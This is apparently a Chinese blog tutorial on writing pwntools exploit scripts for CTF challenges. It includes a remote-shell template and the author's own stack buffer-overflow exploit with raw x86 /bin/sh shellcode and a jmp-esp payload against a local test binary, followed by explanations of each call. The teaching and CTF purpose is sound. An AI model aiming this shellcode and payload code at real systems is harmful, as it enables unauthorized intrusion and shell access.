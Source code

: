 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      Pwn脚本               # 标题 
subtitle:   pwn脚本 #副标题
date:       2018-10-03             # 时间
author:     XT                      # 作者
header-img: img/post-bg-alibaba.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - pwn
---
```


# pwn脚本模板
>这是**pwn脚本模板**的简介



## 1. 大致框架

官网的一个简单样例

```
from pwn import *
context(arch = 'i386', os = 'linux')
r = remote('exploitme.example.com', 31337)
# EXPLOIT CODE GOES HERE
r.send(asm(shellcraft.sh()))
r.interactive()
```


自己测试的

```

from pwn import *
sh = process('./boverflow')
context(arch = 'i386', os = 'linux')
r = remote('127.0.0.1', 9999)
shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"
sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (0x20 - len(shellcode_x86)) * 'b'+ 'bbbb' + p32(jmp_esp) + sub_esp_jmp
#print payload
r.sendline(payload)
r.interactive()

```

基本上仿造这个格式就可以写exp了。

```
from pwn import *
```

用来导入pwntools模块

```
context(arch = 'i386', os = 'linux')
```

设置目标机的信息

```
r = remote('exploitme.example.com', 31337)
```

用来建立一个远程连接，url或者ip作为地址，然后指明端口

这里也可以仅仅使用本地文件,调试时方便:

```
r = process("./boverflow")
```

boverflow即为文件名,这使得改变远程和本地十分方便.

```
asm(shellcraft.sh())
```

asm()函数接收一个字符串作为参数，得到汇编码的机器代码。 
 比如

```
>>> asm('mov eax, 0')
'\xb8\x00\x00\x00\x00'12
```

shellcraft模块是shellcode的模块，包含一些生成shellcode的函数。

其中的子模块声明架构，比如shellcraft.arm 是ARM架构的，shellcraft.amd64是AMD64架构，shellcraft.i386是Intel 80386架构的，以及有一个shellcraft.common是所有架构通用的。

而这里的shellcraft.sh()则是执行/bin/sh的shellcode了

r.send()将shellcode发送到远程连接

最后，

```
r.interactive()1
```

将控制权交给用户，这样就可以使用打开的shell了



## Context设置

`context`是pwntools用来设置环境的功能。在很多时候，由于二进制文件的情况不同，我们可能需要进行一些环境设置才能够正常运行exp，比如有一些需要进行汇编，但是32的汇编和64的汇编不同，如果不设置context会导致一些问题。

一般来说我们设置context只需要简单的一句话:

```
context(os='linux', arch='amd64', log_level='debug')
```

这句话的意思是： 

1. os设置系统为linux系统，在完成ctf题目的时候，大多数pwn题目的系统都是linux 
2. arch设置架构为amd64，可以简单的认为设置为64位的模式，对应的32位模式是’i386’ 
3. log_level设置日志输出的等级为debug，这句话在调试的时候一般会设置，这样pwntools会将完整的io过程都打印下来，使得调试更加方便，可以避免在完成CTF题目时出现一些和IO相关的错误。